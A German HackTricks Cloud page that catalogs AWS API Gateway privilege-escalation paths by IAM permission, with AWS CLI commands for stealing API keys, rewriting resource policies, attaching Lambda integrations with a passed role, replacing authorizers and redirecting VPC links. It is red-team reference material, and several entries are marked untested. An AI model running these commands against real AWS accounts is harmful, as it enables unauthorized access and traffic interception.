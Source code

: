 # AWS - Apigateway Privilege Escalation

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories senden.

</details>

## Apigateway

Für weitere Informationen siehe:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Mit dieser Berechtigung können Sie API-Schlüssel der konfigurierten APIs generieren (pro Region).
```bash
aws --region <region> apigateway create-api-key
```
**Potenzielle Auswirkungen:** Mit dieser Technik können Sie keine Privilegien eskalieren, aber Sie könnten Zugriff auf sensible Informationen erhalten.

### `apigateway:GET`

Mit dieser Berechtigung können Sie generierte API-Schlüssel der konfigurierten APIs abrufen (pro Region).
```bash
aws --region apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Potenzielle Auswirkungen:** Mit dieser Technik können Sie keine Privilegien eskalieren, aber Sie könnten Zugriff auf sensible Informationen erhalten.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Mit diesen Berechtigungen ist es möglich, die Ressourcenrichtlinie einer API zu ändern, um sich selbst Zugriff zu geben, um sie aufzurufen und potenziellen Zugriff auf das API-Gateway zu missbrauchen (zum Beispiel das Aufrufen einer anfälligen Lambda-Funktion).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Potenzielle Auswirkungen:** In der Regel können Sie mit dieser Technik nicht direkt eine Privilege Escalation durchführen, aber Sie könnten Zugriff auf sensible Informationen erhalten.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Benötigt Tests
{% endhint %}

Ein Angreifer mit den Berechtigungen `apigateway:PutIntegration`, `apigateway:CreateDeployment` und `iam:PassRole` kann **eine neue Integration zu einer vorhandenen API Gateway REST-API mit einer Lambda-Funktion hinzufügen, die über eine angehängte IAM-Rolle verfügt**. Der Angreifer kann dann **die Lambda-Funktion auslösen, um beliebigen Code auszuführen und möglicherweise Zugriff auf die Ressourcen zu erlangen, die mit der IAM-Rolle verbunden sind**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potenzielle Auswirkungen**: Zugriff auf Ressourcen, die mit der IAM-Rolle der Lambda-Funktion verbunden sind.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Erfordert Tests
{% endhint %}

Ein Angreifer mit den Berechtigungen `apigateway:UpdateAuthorizer` und `apigateway:CreateDeployment` kann **einen vorhandenen API Gateway-Autorisierer ändern**, um Sicherheitsüberprüfungen zu umgehen oder beliebigen Code auszuführen, wenn API-Anfragen gestellt werden.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potenzielle Auswirkungen**: Umgehung von Sicherheitsüberprüfungen, unbefugter Zugriff auf API-Ressourcen.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Muss getestet werden
{% endhint %}

Ein Angreifer mit der Berechtigung `apigateway:UpdateVpcLink` kann **einen vorhandenen VPC-Link ändern, um auf einen anderen Network Load Balancer zu verweisen, der möglicherweise den privaten API-Verkehr auf unbefugte oder bösartige Ressourcen umleitet**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Potenzielle Auswirkungen**: Unbefugter Zugriff auf private API-Ressourcen, Abfangen oder Störung des API-Verkehrs.

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>
